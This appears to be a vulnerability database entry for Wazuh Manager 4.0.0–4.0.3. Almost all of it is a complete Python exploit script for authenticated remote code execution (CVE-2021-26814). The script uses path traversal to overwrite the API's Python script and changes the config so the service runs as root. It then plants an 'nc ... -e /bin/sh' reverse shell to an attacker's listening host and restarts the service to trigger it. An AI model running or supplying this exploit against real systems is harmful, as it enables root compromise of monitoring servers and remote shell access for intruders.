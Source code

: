 影響版本
--------

    Wazuh Manager v.4.0.0-4.0.3

POC
---

    # Exploit Title: Wazuh 4.0.3 API RCE
    # Author: WickdDavid (Davide Meacci)
    # Date: 2021-01-01
    # Vendor Homepage: https://github.com/wazuh/wazuh
    # Version : 4.0.3


    import requests
    import sys
    import argparse
    import time
    import json
    from urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)


    parser = argparse.ArgumentParser(description='Wazuh-manager authenticated RCE by WickdDavid')
    parser.add_argument('-user', dest='username',required=True,
                        help='wazuh API username')
    parser.add_argument('-pwd', dest='password',required=True,
                        help='wazuh API password')
    parser.add_argument('-lip', dest='srcip',required=True,
                        help='listening server')
    parser.add_argument('-lport', dest='srcport',required=True,
                        help='listening port')
    parser.add_argument('-tip', dest='destip',required=True,
                        help='target server ip (wazuh API)')
    parser.add_argument('-tport', dest='destport',required=True,
                        help='target server port (wazuh API)')


    args = parser.parse_args()

    # executed payload may be changed here

    exec_payload = """
    import os #:l
    os.system("nc %s %s -e /bin/sh") #:l
    """ % (args.srcip, args.srcport)


    config_payload = { "drop_privileges": False }


    proxies = {
        "http":"http://127.0.0.1:8080",
        "https":"https://127.0.0.1:8080"
    }

    target = "https://%s:%s" % (args.destip,args.destport)
    auth_token = ""
    path_traversal = "etc/lists/../../../../.."
    headers = {}

    # step 1 - obtaining auth token

    r = requests.get("%s/security/user/authenticate?raw=true" % target, auth=(args.username, args.password),verify=False)

    if(r.status_code == 200):
        auth_token = r.text
        headers["Authorization"] = "Bearer %s" % auth_token
    else:
        print("[!] No auth code recovered. Check username and password")
        exit(1)

    # step 2 - Privilege Escalation on API (not implemented)


    # step 3 - Save files to be restored later

    file_to_overwrite = "/var/ossec/api/scripts/wazuh-apid.py"
    print("[+] Saving files to restore later...")
    r = requests.get("%s/manager/files?path=%s%s" % (target,path_traversal,file_to_overwrite), headers = headers, verify=False)
    f = open("backup.py","w")
    f.write(json.loads(r.text)["contents"])
    f.close()
    time.sleep(1)

    # step 4 - Local Privilege Escalation

    print("[+] Changing API config to run as root...")
    r = requests.put("%s/manager/api/config" % target, headers = headers, json = config_payload, verify=False)
    time.sleep(1)

    # step 5 - Restart server (now api service runs as root)

    print("[+] Restarting server...")
    r = requests.put("%s/manager/restart?wait_for_complete=true" % target, headers = headers,verify=False)
    #print(r.text)

    data = {"title":"Bad Request"}
    while "title" in data and "Bad request" in data["title"]:
        time.sleep(5)
        try:
            r = requests.get("%s/manager/status" % target, headers = headers, verify=False)
            #print(r.text)
            data = json.loads(r.text)
        except:
            continue

    # step 6 - Overwrite /var/ossec/api/scripts/wazuh-apid.py with malicious python payload

    print("[+] Uploading payload...")
    r = requests.put("%s/manager/files?path=%s%s&overwrite=true" % (target,path_traversal,file_to_overwrite), headers = headers, data = exec_payload, verify=False)
    #print(r.text)
    time.sleep(1)

    # step 7 - Restart server (now malicious payload will be run by the server)


    print("[+] Restarting API service for the last time...")
    r = requests.put("%s/manager/restart?wait_for_complete=true" % target, headers = headers,verify=False)
    #print(r.text)

    data = {"title":"Bad Request"}
    while "title" in data and "Bad request" in data["title"]:
        time.sleep(5)
        try:
            r = requests.get("%s/manager/status" % target, headers = headers, verify=False)
            #print(r.text)
            data = json.loads(r.text)
        except:
            continue


    print("[+] Payload executed, check your shell now.")
    print("[+] Remember to restore changed file (check local backup file)")

Github
------

<https://github.com/WickdDavid/CVE-2021-26814>